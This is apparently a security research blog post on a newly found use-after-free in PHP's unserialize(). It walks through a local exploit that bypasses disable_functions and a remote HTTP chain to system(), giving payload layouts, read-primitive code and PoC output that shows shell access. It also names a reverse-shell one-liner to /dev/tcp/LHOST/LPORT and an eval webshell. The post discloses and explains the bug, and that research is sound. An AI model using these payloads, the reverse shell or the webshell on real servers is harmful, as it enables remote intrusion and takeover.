

# MAD Bugs: Finding and Exploiting a 21-Year-Old Vulnerability in PHP

When this bug shipped, the dinosaurs had just gone extinct, only 64.999979 million years prior.

*This post is part of [MAD Bugs](https://blog.calif.io/t/madbugs), our Month of AI-Discovered Bugs, where we pair frontier models with human expertise and publish whatever falls out.*

> Before we dive in, one piece of news. **Stefan Esser** is joining Calif. Stefan was "the PHP security guy" twenty years ago, so we thought it'd be fun to mark his arrival with a fresh unserialize UAF.

PHP's `unserialize()` function has been a literal vulnerability factory for years. This is the story of how we found a new unserialize use-after-free in a code path that has been vulnerable since PHP 5.1, built a local exploit that bypasses `disable_functions` with no `/proc` access and no hardcoded offsets, then turned it into a remote exploit. The remote takes ~2,000 HTTP requests to shell, against the latest release PHP 8.5.5. As far as we can tell this is the first public remote UAF exploit against PHP 8.x.

> **Caveat up front.** The remote chain has a strong precondition on the target: it must have a class loaded that implements `Serializable`, calls `unserialize()` recursively on inner data inside its own `unserialize()` method, and then grows the inner object's property table. The PoC ships such a class. Real-world code matching this pattern is uncommon, so this remote PoC has limited practical reach. The local exploit does not have these caveats.

The bug is a missing `BG(serialize_lock)++` in `zend_user_unserialize()`, a two-line omission whose code path has been vulnerable since PHP 5.1 shipped `Serializable` in 2005. We're also open-sourcing the audit skill that found it: [`/php-unserialize-audit`](https://github.com/califio/skills).

But first, some history. The story of *why* this is still happening is more interesting than the bug itself.

## A Brief History of Unserialize Misery

PHP has been the hacker's playground for years. Half the chapter-one tricks in any web-hacking workshop were either invented in PHP or perfected against it: LFI via crafted `include` paths, RFI through `allow_url_include`, `phar://` metadata deserialization, etc. But the most devastating attacks were use-after-free bugs in the engine itself: a working UAF in `unserialize()` was a universal weapon against any application that fed user input through the function. The line of work started with Stefan Esser.

His 2007 [Month of PHP Bugs](https://developers.slashdot.org/story/07/02/20/0144218/march-to-be-month-of-php-bugs) included [MOPB-04-2007](https://web.archive.org/web/20071028092015/http://www.php-security.org/MOPB/MOPB-04-2007.html), the first public unserialize UAF. By [POC 2009](https://www.nds.rub.de/media/hfs/attachments/files/2010/03/hackpra09_fu_esser_php_exploits1.pdf) he had shown that `__destruct` / `__autoload` made object injection practical against real applications, and at [BlackHat 2010](https://media.blackhat.com/bh-us-10/presentations/Esser/BlackHat-USA-2010-Esser-Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits-slides.pdf) he introduced Property-Oriented Programming (POP) chains alongside the first full engine-level unserialize UAF exploit. Two distinct problems were now on the table: application-level POP chains, and engine-level memory corruption inside the deserializer.

### Taoguang Chen and the UAF Gold Rush (2015–2016)

In 2015, Taoguang Chen ([@chtg57](https://x.com/chtg57)) started filing unserialize UAFs at a rate that suggested a methodology rather than individual bugs: DateTime, `__wakeup`, SplObjectStorage, session handlers, SplDoublyLinkedList, GMP, and more (CVE-2015-0273, -2787, -6834, -6835 through 2017).

Every one followed the same pattern. A magic method or custom unserialize handler would free a zval that was still registered in `var_hash`, the deserializer's table of parsed-so-far values; a later `R:N` back-reference in the stream would resolve to the freed slot; the attacker reclaimed it with controlled bytes and turned the type confusion into code execution. His [CVE-2015-0273 PoC](https://gist.github.com/chtg/ffc16863cbcff6d9a034) rode exactly that UAF bug class all the way to `zend_eval_string()` on PHP 5.5.14.

### Check Point and PHP 7 (2016)

PHP 7 rewrote the Zend engine and the zval layout; the bug class came along for the ride. In 2016 Check Point's Yannay Livneh landed three more in the new engine ([CVE-2016-7479/-7480](https://cpr-zero.checkpoint.com/vulns/cprid-1003/), RCE), and Weisser, cutz, and Habalov [hacked Pornhub](https://www.evonide.com/how-we-broke-php-hacked-pornhub-and-earned-20000-dollar/) via two GC-path UAFs, concluding:

> *"You should never use user input on unserialize. Assuming that using an up-to-date PHP version is enough to protect unserialize in such scenarios is a bad idea."*

Tooling kept pace: Charles Fol's [PHPGGC](https://github.com/ambionics/phpggc) (2017) turned Esser's POP chains into an off-the-shelf gadget catalog for every major framework, and Sam Thomas's 2018 [`phar://` work](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf) made `file_exists()`, `fopen()`, `stat()`, and friends into deserialization sinks too.

Two decades of research, dozens of CVEs, and a clear pattern. In August 2017, the PHP project made a decision.

## "Not a Security Issue"

On August 2, 2017, the PHP internals mailing list [debated the "Unserialize security policy"](https://externals.io/message/100147). The outcome: **PHP would stop treating unserialize() memory corruption bugs as security vulnerabilities.**

The justification was that `unserialize()` was never designed for untrusted input and developers should use `json_decode()` instead; bugs would still be fixed, but no CVEs and no urgency. Chen, after two years of responsible disclosure, [was not amused](https://x.com/chtg57/status/895985604378279936). The PHP documentation to this day carries the warning:

> *"Do not pass untrusted user input to unserialize() regardless of the options value of allowed_classes."*

## The Bug

Against that backdrop, we built a new audit skill, [`/php-unserialize-audit`](https://github.com/califio/skills), by feeding Claude ~20 historical unserialize advisories (including Chen's 2015 SPL UAFs) and distilling them into a taxonomy of bug classes the model could go look for. Then we pointed it at PHP 8.5.5. One finding stood out: **Serializable reentrancy shares outer var_hash.**

To see why, three pieces of background.

**`var_hash`** is the deserializer's table for resolving back-references. PHP's serialize format has `R:N;` (and `r:N;`) tokens that point at the N-th value parsed so far; the parser keeps a `zval*` per slot. A `zval` is a 16-byte cell: 8-byte `value`, 4-byte `u1` (type tag plus flags), 4-byte `u2` (repurposed by context). Scalars (IS_LONG, IS_DOUBLE, ...) live inline in `value`; refcounted types (IS_STRING, IS_OBJECT, IS_REFERENCE, ...) put a pointer to heap data there instead. For object properties, the zval lives inside the property HashTable's `arData` buffer.

**Property HashTable** packs all entries into one contiguous allocation. Each bucket is 32 bytes: a 16-byte zval (`val`), an 8-byte cached hash (`h`), and an 8-byte pointer to the key string (`key`). Buckets sit in `arData` in insertion order; a separate hash-index region routes lookups by `hash & nTableMask`. Collisions chain through a `next` field tucked inside the zval's `u2` slot. The HT starts at `nTableSize=8` and doubles on overflow, which means allocating a fresh `arData`, copying buckets over, and `efree`ing the old one.

**`BG(serialize_lock)`** keeps `var_hash` private to each top-level `unserialize()`. Hook points (`__wakeup`, `__unserialize`, `__destruct`) bump the counter before user code runs; nested calls see the non-zero lock and allocate their own private `var_hash`.

The bug: `zend_user_unserialize()`, the dispatch site for `Serializable::unserialize()`, skips the bump. A body that calls `unserialize($data)` recursively therefore shares the outer's `var_hash`. Inner-parsed property zvals end up registered as outer slots, pointing into the inner-stream object's `arData`. If user code then mutates that object enough to trigger a property-table resize, `zend_hash_do_resize` `efree`s the old `arData` and a later `R:N;` dereferences freed memory.

```c
// Zend/zend_interfaces.c:442-460: NO serialize_lock increment
ZEND_API int zend_user_unserialize(zval *object, zend_class_entry *ce,
                                   const unsigned char *buf, size_t buf_len,
                                   zend_unserialize_data *data)
{
    zval zdata;
    ZVAL_STRINGL(&zdata, (char*)buf, buf_len);
    // BG(serialize_lock)++ is MISSING here
    zend_call_method_with_1_params(           // user PHP code runs
        Z_OBJ_P(object), Z_OBJCE_P(object),  // without the lock
        NULL, "unserialize", NULL, &zdata);
    zval_ptr_dtor(&zdata);
    ...
}
```

Every other user-code dispatch site during unserialization (`__wakeup`, `__unserialize`, `__destruct`) increments the lock. This one doesn't, and hasn't since PHP 5.1. It is essentially **Chen's pch-030 surviving into modern PHP**: the 2015-era fixes tightened individual SPL call sites but never touched the `Serializable` dispatch path.

## Triggering the UAF

The smallest gadget that fires the bug looks like this:

```php
class CachedData implements Serializable {
    public function serialize(): string { return ''; }
    public function unserialize(string $data): void {
        unserialize($data)->x = 0;
    }
}
```

This is a synthetic gadget. For the **local** exploit it doesn't matter: an attacker running PHP code on the target controls the class definitions and ships the gadget in the same payload. For the **remote** exploit it's the precondition. The chain runs identically against any class with the right shape; we just haven't found one in real-world code.

## Exploit Strategy

Every payload to `unserialize()` has the same shape: a top-level array containing the gadget, 32 spray strings, and one or more `R:N` back-references. Gadget frees `arData`, one spray reclaims it, `R:N` dereferences; only the spray content and the `R:N` choices change between steps.

1. **Leak a heap address.** ASLR means the script doesn't know where anything lives. Exploit the UAF in a way that makes the engine write a fresh heap pointer through the freed slot, into a spray we control, and read it back. The leaked heap address becomes the anchor for everything else.
2. **Build `uaf_read`.** Reuse the same gadget UAF with different spray content: a forged string pointing at any chosen address. When the parser resolves the back-reference, PHP treats the spray as a real string located at `addr`, and the script reads N bytes back. Combined with the heap anchor, this is enough memory introspection for everything that follows.
3. **Build a fake `zend_object`.** A real one has a class entry, a handlers vtable, and a function pointer at the right slot. Use `uaf_read` to walk from the heap anchor through engine metadata until each of those values is known, then copy them into bytes shaped like a `zend_object`.
4. **Dispatch a function on the fake object.** PHP follows the forged fields as if the object were real, lands on the forged function pointer, and calls it. That's the RCE.

The local and remote exploits follow this exact shape. They differ only in which fake object (`Closure` vs. `stdClass`), which dispatch path, and how far Step 3 has to walk to find the function pointer. The phases below trace each step.

## Local Exploitation

The local chain runs all four steps in one PHP process, ~30 UAF triggers total. In-process round trips are microseconds, so request count only matters once we move to the remote chain.

### Step 1: Leak a heap address



The payload to `unserialize()`:

```
a:41:{ // slot 1: top-level array
  i:0;        C:10:"CachedData":<len>:{ // slot 2
                O:8:"stdClass":8:{ s:2:"p0";i:...; ... s:2:"p7";i:...; } // slot 3
              }
  i:1..i:32;  s:280:"<spray bytes>";   // slot 4..slot 32, each carries 8 IS_LONG markers
  i:33..i:40; R:4..R:11;               // slot 33..slot 40, eight back-refs into slots 4..11
}
```

What happens, in order:

1. **Outer parser starts.** Slot 1 of `var_hash` = the top-level array.
2. **Parses `CachedData`.** Slot 2 = the new instance. Dispatches into `zend_user_unserialize()` → `CachedData::unserialize($data)`, *without* bumping `BG(serialize_lock)`.
3. **Gadget body runs `unserialize($data)`.** The inner parser sees the lock at 0 and shares the outer `var_hash`. Slot 3 = the inner stdClass; slots 4..11 = its 8 property zvals, each pointing into the stdClass's 320-byte `arData` allocation (a 64-byte hash index + 8 × 32-byte buckets, exactly the bin-320 slot size).
4. **Gadget body runs `->x = 0`.** The 9th insert into a `nTableSize=8` HT. `zend_hash_do_resize` allocates a new arData at `nTableSize=16`, copies the 8 buckets, and `efree`s the original 320 bytes. **Slots 4..11 are now dangling.**
5. **Gadget returns. Outer parser resumes.** It allocates the 32 sprays (280 bytes content + 24-byte header, lands in bin-320). One reclaims the freed `arData` slot; its `val[]` now overlays what used to be the stdClass's arData.
6. **`R:N` resolves.** The parser dereferences slot N (now pointing at spray content) and reads the IS_LONG marker. `ZVAL_MAKE_REF` allocates a fresh `zend_reference`, copies the marker into it, and writes 16 bytes back: `(type=IS_REFERENCE, value=ptr_to_ref)`. Those 16 bytes land inside the spray.

The spray lands at the same start address as the old arData. Its `val[]` starts at allocation+`0x18` (24-byte `zend_string` header) while arData's buckets start at allocation+`0x40` (64-byte hash index), so bucket[k] overlays **spray offset `0x28 + k * 0x20`**:

![Alignment between the freed arData (top) and the spray that reclaims it (bottom): allocation+0x40 (where bucket[0] starts in the arData view) coincides with val offset 0x28 in the spray view](images/alignment.svg)

The IS_LONG markers sit at exactly those offsets, so each lands where var_hash slots 4..11 still point; `R:4` resolves to bucket[0] (p0, the first property inserted).

```
spray (input, 280 bytes):                  spray[k] (output, after the UAF):
  +0x28: 00 00 BB BB ...    ← bucket[0]     +0x28: 80 4D 6B E2 16 7D 00 00   ← heap ptr (ZVAL_MAKE_REF)
  +0x30: 04 00 00 00        ← IS_LONG       +0x30: 0A 00 00 00               ← IS_REFERENCE
  +0x48: 01 00 BB BB ...    ← bucket[1]     +0x48: A0 4D 6B E2 16 7D 00 00   ← heap ptr
  +0x50: 04 00 00 00        ← IS_LONG       +0x50: 0A 00 00 00               ← IS_REFERENCE
  ...                                       ...
```

The script walks `$result[1..32]` for the spray with mutated markers and pulls eight bytes at the first changed offset. That's the leaked heap address; the chunk base is `addr & ~0x1FFFFF`. (Eight refs instead of one for redundancy; IS_LONG markers because non-refcounted values survive the parser's destructor walk.)

### Step 2: Build `uaf_read`

`uaf_read(addr, n)` reads N bytes at any address. Same gadget UAF as Step 1, same spray reclaim, just two changes to the payload: only one `R:4` instead of eight, and the spray carries a forged `IS_STRING` zval at bucket[0]:

```
a:34:{
  i:0;  C:10:"CachedData":<len>:{ ...inner stdClass with 8 properties... }
  i:1;  s:280:"<spray bytes>";
  ...
  i:32; s:280:"<spray bytes>";
  i:33; R:4;
}
```

Each spray's 280-byte content is binary, but the meaningful offsets are:

```
spray content (280 bytes):
  +0x00..+0x27               (zeros, covers the 64-byte hash index region)
  +0x28: <addr-0x18, 8B LE>  ← bucket[0].val: forged IS_STRING value
  +0x30: 06 00 00 00 ...     ← bucket[0].type: IS_STRING
  +0x48..+0xFF               (other buckets, IS_LONG markers, defensive)
```

The gadget frees arData, a spray reclaims it, `R:4` reads the forged `(IS_STRING, value=addr-0x18)` zval at bucket[0], and `$result[33]` becomes a PHP reference to a string whose `val[]` starts at `addr`. This is the inverse of Step 1: there we ignored `$result[33]` and read the **spray** for the side-effect write; here we read `$result[33]` directly because we forged a shape PHP exposes through normal string operators.

```php
private function uaf_read($addr, $n = 8) {
    foreach ([0, 0x08, 0x10, 0x20, 0x40, 0x80, 0x100, 0x200] as $bias) {
        $target = $addr - 0x18 - $bias;
        $spray  = $this->build_spray_isstring($target);
        $result = @unserialize($this->build_payload($spray, 1));
        $str    = $result[self::SPRAY_COUNT + 1];
        if (is_string($str) && strlen($str) > $bias + $n - 1) {
            return substr($str, $bias, $n);
        }
    }
    return false;
}
```

The bias loop backs the forged-string base off in growing steps when `addr - 0x18` happens to land in an unmapped page. `uaf_read` plus the heap anchor from Step 1 is enough memory introspection for everything that follows.

### Step 3: Build the fake Closure

Step 4 needs the engine to dispatch into a chosen C function (here `zif_system`, PHP's native implementation of `system()`). For that to work via a path PHP exposes to user code, the local exploit forges the fake `zend_object` as a **Closure** specifically.

A Closure is PHP's runtime representation of `function() { ... }`: a `zend_object` followed by a `zend_function` whose `func.handler` holds the C function pointer. Of the ways to make PHP call a value, only `$obj(...)` dispatches purely from runtime fields, and Closure is the kind with the fewest fields to forge: `ZEND_INIT_DYNAMIC_CALL` checks `obj->ce == zend_ce_closure` and, if so, reads `func.handler` directly. So Step 4's trigger is `$result[33]("id && uname -a")`, and this step's job is to fill a buffer with bytes that pass for a real Closure: `ce = zend_ce_closure`, `handlers = closure_handlers`, `func.handler = zif_system`.


**Find `ce` and `handlers` via the mega-string.**

Spray 256 Closure objects (`$GLOBALS["_spray_$i"] = function(){};` × 256), then call `uaf_read(chunk - 0x10, ...)`. ZendMM's chunk header at `chunk + 0x00` is a heap-struct pointer (~140 TB as an integer), which becomes the fake `zend_string`'s `len` field; `val[]` then covers the whole 2 MB chunk in one round trip. Scan the chunk for `zend_object` GC patterns, group by `handlers` address, and the largest cluster (256+ Closures) reveals `closure_handlers` (a .bss address) and `zend_ce_closure` (a brk-heap address).

![The mega-string trick: a fake zend_string at chunk - 0x10 overlaps len with the chunk header (huge value) and val[] with chunk content, giving a 2 MB read window per UAF](images/megastring.svg)

**Walk to EG.** `closure_handlers` lives near `executor_globals` (`EG`) in .bss because both are static globals in the same compilation unit. From `closure_handlers`, walk forward in 8-byte steps and `uaf_read` three consecutive 8-byte pointers at each offset, looking for the (`function_table`, `class_table`, `zend_constants`) triplet. Triplet offset is `EG+0x1b0` on 8.0–8.4 and `EG+0x1c8` on 8.5+; try both. Once found, `EG = closure_handlers + delta` and `symbol_table = EG + 0x130`.

**Walk to `zif_system`, around `disable_functions`.** `zend_disable_function()` only patches the runtime `function_table` copy; the source `zend_function_entry[]` array in the standard module's `.data.rel.ro` is untouched. So look up `var_dump` (not disabled, same module) in `function_table`, follow its `module` pointer to `zend_module_entry`, then linearly scan the static `zend_function_entry[]` for `"system"`.

**Forge the bytes and locate them.** Allocate a plain PHP string in `$GLOBALS["_xfc"]`, write the three values at `OFF_OBJ_CE` / `OFF_OBJ_HANDLERS` / `OFF_CLOSURE_FUNC + OFF_HANDLER`, then `uaf_read` a DJBX33A lookup of `"_xfc"` in `EG.symbol_table` to get its `zend_string*`. That pointer plus 24 (the `val[]` offset) is the forged Closure's address.

### Step 4: Dispatch

Reuse the gadget UAF one last time with a forged `(IS_OBJECT, value = fake_closure_addr)` zval at slot 4's bucket, with `IS_TYPE_REFCOUNTED | IS_TYPE_COLLECTABLE` set so the engine treats the value as a real refcounted object pointer. `$result[33]` becomes what PHP believes is a Closure. Calling it dispatches:

```
$result[33]("id && uname -a")
  -> ZEND_INIT_DYNAMIC_CALL: obj->ce == zend_ce_closure?  YES
  -> ZEND_DO_FCALL:          handler = obj->func.handler   ← zif_system
  -> zif_system("id && uname -a")                          → shell
```

The engine never realizes it's looking at fake bytes. Every field at every offset matches a real Closure layout; the only difference is provenance.

### PoC

10/10 runs under full ASLR on PHP 8.5.5.

```
$ ./run_poc.sh
[*] Image:    php:8.5-cli
[*] Disabled: system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec

=== PHP Serializable var_hash UAF → RCE ===
    Arch: aarch64    ADDR_MAX=0xffffffffffff    DELTA_MAX=0x600

[*] Phase 1: Heap address leak via R: write-through...
[+] zend_reference @ 0xffffa80b5b80

[*] Phase 3: Finding object pointers (ce, handlers) in heap...
[+] Found 3 object groups, best: count=257 ce=0xaaab16600360 handlers=0xaaaae0950e50

[*] Phase 4: Locating executor globals...
[+] function_table @ 0xaaab165c0160 (nNumUsed=1206, delta=0xd8, ft_off=+0x1c8)
[+] EG @ 0xaaaae0950f28 (ft_off=+0x1c8), symbol_table @ 0xaaaae0951058 (nNumUsed=264)

[*] Phase 5: Bypassing disable_functions...
[!] system() is in disable_functions: system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec
[*] Bypassing: resolving zif_system from module function entry table...
[+] standard module @ 0xaaaae0931ca8 (via var_dump)
[+] module functions @ 0xaaaae0865298
[+] zif_system (from module) @ 0xaaaadf6fb7b0

[*] Phase 6: Building the fake closure...

[*] Phase 7: Locating the fake closure via EG.symbol_table...
[+] Fake closure @ 0xffffa8082798

[*] Phase 8: Type confusion and RCE...
[+] Got fake Closure!

──────────────────────────────────────────────────
uid=0(root) gid=0(root) groups=0(root)
Linux 51012e0a33e0 6.10.14-linuxkit #1 SMP Wed Sep 10 06:47:45 UTC 2025 aarch64 GNU/Linux

──────────────────────────────────────────────────

[+] Exploit complete.
```

## Remote Exploitation

The local exploit runs as PHP code on the target. The remote exploit reaches the same outcome using only HTTP POST requests against an application that passes attacker-controlled data to `unserialize()`.

The target: Docker `php:8.5-apache`, Debian-based, Apache mod_php prefork MPM, jemalloc-backed ZendMM. The vulnerable endpoint is the same one-liner gadget plus a single line that echoes the round-trip:

```php
class CachedData implements Serializable {
    public function serialize(): string { return ''; }
    public function unserialize(string $data): void {
        unserialize($data)->x = 0;
    }
}

echo serialize(@unserialize($_REQUEST['cook']));
```

### What Changes Once You Go Remote

**No PHP code runs after `unserialize()`.** The endpoint's only post-deserialize work is `echo serialize($result)`, so the local `$result[33](...)` Closure dispatch is out. The forged object has to be reached by `serialize()` itself.

**Worker crash is the oracle.** Apache prefork gives each request its own process. A bad address crashes that one worker; Apache spawns a replacement. Crashes are cheap because all workers fork from one parent *after* ASLR, so libphp, libc, and `EG` sit at the same place in every one of them; only transient heap state is per-worker, and the exploit re-leaks that as needed.

**No symbol knowledge.** Every address is derived at runtime from ELF headers, `PT_DYNAMIC`, `.gnu_hash`, and the GOT.

### Steps 1 and 2: heap leak and `uaf_read`

Identical to the local chain. Step 1 reads the `ZVAL_MAKE_REF` write-through out of the corrupted spray in the response body (**1 request**). Step 2 forges an IS_STRING zval at val offset `0x28` and reads `$result[33]` from the serialized response; the only difference is that each `uaf_read` is now one HTTP round-trip, so later request counts are essentially counting `uaf_read` calls.

### Step 3: Build the fake `zend_object`

The fake object is a `stdClass`, not a `Closure` (see Step 4 for why). Forging its bytes needs three runtime addresses (the `stdClass` class entry, the spray string's own address that doubles as the fake vtable, and libc `system()`) plus one hardcoded constant (the offset of `get_properties_for` inside `zend_object_handlers`, namely `0xC8`). Without the local exploit's closure-cluster anchor, every one of those addresses has to come from raw binary metadata. The remote chain spends most of its time walking it. Five sub-walks follow (R-2 through R-6 in the script).


#### 3a: Find libphp.so (R-2)

The local Closure-cluster trick doesn't work here (`unserialize()` refuses to construct Closures), so the chain needs libphp's image base instead. Scan in 2 MB then 1 MB steps around the heap leak for `\x7fELF`; each probe is one `uaf_read`, bad addresses crash a worker, good ones return bytes. Crashed probes cost one request and the next candidate goes to a fresh worker with the same memory map. **~50–120 requests.**

#### 3b: Resolve symbols via `.gnu_hash` (R-3)

With libphp's ELF base, do what `ld.so` does: read the ELF header, find `PT_DYNAMIC`, walk `.dynamic` for the addresses of `.dynsym` / `.dynstr` / `.gnu_hash` / `.got.plt`, then run a standard `.gnu_hash` lookup (hash the name, check the bloom filter, walk the chain, read `Elf64_Sym.value`). Two values come out: **`executor_globals`** (the `.bss` address 3d needs) and **`PLTGOT`**, the GOT where ld.so has already written every resolved libc address libphp ever called, which 3c will dump. **~10 requests.**

#### 3c: Find libc `system()` via GOT dump (R-4)

This is the dominant phase. Step 4's vtable needs a libc `system` pointer; libc's offset from libphp isn't stable across hosts, but libphp's GOT already contains resolved libc pointers. Dump it, cluster by proximity, and the largest non-libphp cluster is libc.

Dumping ~83 KB one `uaf_read` at a time would burn thousands of small reads, so the chain reuses the fake-`len` trick. `.dynamic`'s `DT_PLTRELSZ` entry has a `d_val` of ~82,872 (the PLT relocation table size), which conveniently spans the rest of `.dynamic` plus `.got.plt`. Base the forged `zend_string` at `&d_val - 0x10`, and that 8-byte field becomes `len`; `val[]` then covers the whole GOT.

![Step 3c: a fake zend_string based at &d_val - 0x10 makes DT_PLTRELSZ's d_val the len field, so val[] spans the rest of .dynamic into .got.plt and exposes every resolved libc pointer including system()](images/got-dump.svg)

The response path still serializes results back in chunks, so 83 KB costs **~1,500–2,000 requests**. Once the GOT bytes are in hand, cluster the pointers by page, take the largest non-libphp group as libc, and run 3b's `.gnu_hash` lookup inside it for `system`.

#### 3d: Find the `stdClass` class entry (R-5)

The forged object's `ce` must equal `zend_standard_class_def`. Read `EG.class_table` from 3b's `executor_globals`, DJBX33A-lookup `"stdclass"`, follow the bucket. **~55 requests.**

#### 3e: Locate the spray slot (R-6)

Step 4's forged `handlers` field points into the spray itself, so the payload needs the spray's heap address `S`. Read ZendMM's per-chunk metadata to find the bin-320 page that held the freed allocation, then probe slots. **~10 requests.**

### Step 4: Dispatch

Why `stdClass` and not `Closure`: nothing *calls* `$result[33]` here; the only post-deserialize code is `echo serialize($result)`. So the dispatch has to come from `serialize()` itself, which walks each object via `obj->handlers->get_properties_for(obj)` (offset `0xC8` in `zend_object_handlers`). Point the forged object's `handlers` at the spray string itself, write libc `system()` at `+0xC8` of that fake vtable, and the call becomes `system(obj)` where `obj+0x00` is the shell command:

```
serialize($result)
  -> php_var_serialize_intern(result[33])
       type = IS_OBJECT
       obj  = S+104 (inside spray string)
  -> GC_ADDREF(obj)
       (increments refcount at obj+0x00)
  -> zend_get_properties_for(obj)
       handlers[0xC8] = libc system()
  -> system(obj)
       executes the bytes at obj+0x00 as a shell command
```

The trigger is one final use of the gadget UAF, with a forged `(IS_OBJECT, value = S)` zval at slot 4's bucket. **1 request.**

`GC_ADDREF(obj)` increments a uint32 at `obj+0x00` *before* the vtable call (it's the refcount field of `zend_refcounted_h`). The first byte of the shell command gets `+1` applied.

The exploit puts `\x09` (tab) at `obj+0x00`. `GC_ADDREF` turns it into `\x0A` (newline), which the shell ignores as leading whitespace. That leaves 14 usable bytes for the command. The default is `id>/dev/shm/x` (13 bytes), enough to prove RCE.

### PoC

3/3 successful runs against Docker `php:8.5-apache` with full ASLR, container restart between each run, on both linux/amd64 and linux/arm64:

```
$ ./run_remote_poc.sh
[*] Container up; endpoint: http://127.0.0.1:8081/remote_app.php

============================================================
  Full chain: heap -> ELF -> EG -> system() -> RCE
  Target: 127.0.0.1:8081
============================================================

[Phase R-1] Heap leak
  heap_ref = 0xffffb6a58240

[Phase R-2] Finding libphp.so
  ELF @ 0xffffb7000000 phnum=8 (8 reqs)
  ELF @ 0xffffb7400000 phnum=9 (12 reqs)
  ...
  ELF @ 0xffffb8900000 phnum=9 (565 reqs)

[Phase R-3] Resolving symbols via .gnu_hash
  Trying ELF @ 0xffffb7400000 (phnum=9)
    symbol 'executor_globals' not found at 0xffffb7400000
  ...
  Trying ELF @ 0xffffb3400000 (phnum=8)
  libphp           = 0xffffb3400000
  executor_globals = 0xffffb4b45888 (offset 0x1745888)
  PLTGOT           = 0xffffb4a5ffe8

[Phase R-4] Libc discovery via GOT dump
    Reading GOT via DT_PLTRELSZ len=85392 (0x14d90)
    External pointer groups: 23 total, 18 nearby
      libc @ 0xffffb8690000, system @ 0xffffb86d9380
  system() = 0xffffb86d9380

[Phase R-5] EG and stdClass class entry
    class_table = 0xaaaaefae7bb0
  stdclass ce = 0xaaaaefbbf6d0

[Phase R-6] Spray slot discovery
  Found spray at slot 5 @ 0xffffb6a75640
  S = 0xffffb6a75658

[Phase R-7] Type confusion to libc system()
  stdClass ce = 0xaaaaefbbf6d0
  system()    = 0xffffb86d9380
  Command (after GC_ADDREF): \nid>/dev/shm/x
  Sending RCE payload...

[*] Total requests: 2375

[*] Verifying inside container:
============================================================
  RCE SUCCESS: /dev/shm/x in php-uaf-poc
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
============================================================
```

For anything longer, the exploit just fires Step 4 repeatedly. R-1 through R-6 discover values that are stable across all prefork workers (they fork from one parent, so libphp, libc, the heap chunk, and the spray slot land at the same addresses everywhere), so once those phases are done each additional 14-byte `system()` is one more request. `--reverse LHOST:LPORT` assembles `bash -i >&/dev/tcp/LHOST/LPORT 0>&1` three bytes at a time via `echo -n …>>w` into the DocumentRoot and finishes with `bash w&` (~25 extra triggers); `--webshell` does the same to write `<?=eval($_REQUEST[1])?>` and then `mv w c.php` (~16 triggers).

## Conclusion

The bug came out of Calif's [`/php-unserialize-audit`](https://github.com/califio/skills) skill, the same framework behind our [FreeBSD kernel work](https://blog.calif.io/p/mad-bugs-claude-wrote-a-full-freebsd). The skill itself was built by Claude: we handed it ~20 historical advisories and had it distill them into the taxonomy and grep patterns the audit runs on. A dry run against PHP 5.6.40 rediscovered all 12 phpcodz advisories; the 8.5.5 run flagged the Serializable var_hash sharing as new.

Exploitation was a separate effort. We supplied a corpus of old unserialize exploits and steered the high-level strategy; Claude wrote both exploits and the technical writeup. We verify the PoCs end-to-end and otherwise ship the model's output as-is.

It's tempting to read that as "AI does vulnerability research now." What the MAD Bugs series actually shows is that the best results come from expert humans and AI working together.

> People didn't stop hiking when cars were invented; cars let them reach more interesting trailheads.

AI lowers the floor for newcomers and gives existing researchers a serious amplifier. The remote chain here is a good example: most of it is ELF plumbing (program headers, `.gnu_hash`, GOT layout), the kind of byte-offset bookkeeping that is tedious to write by hand and that an AI gets right on the first try. Strip that tedium out and what's left is the exciting part.

So we think this is a great time to get into vulnerability research with AI (VRAI, if you want a label). PHP is a fun place to start: it sits between "the web" and "low-level engine internals," so one target gives you both the reach of web bugs and the mechanics of native memory corruption. We hope this post is a useful trailhead.
